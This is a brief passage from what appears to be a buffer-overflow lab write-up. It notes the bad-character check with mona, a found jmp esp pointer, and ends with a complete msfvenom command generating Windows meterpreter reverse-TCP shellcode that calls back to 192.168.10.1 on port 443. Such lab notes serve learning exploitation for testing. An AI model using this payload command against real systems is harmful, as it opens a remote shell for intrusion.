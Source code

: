 ![dump-esp](assets/markdown-img-paste-20210908201914248.png)

![mona-check-ok](assets/markdown-img-paste-20210908201951911.png)

No bad characters found with mona or manual check.

![jmp-esp-point](assets/markdown-img-paste-20210908202513636.png)

A valid jmp esp pointer.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.1 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`
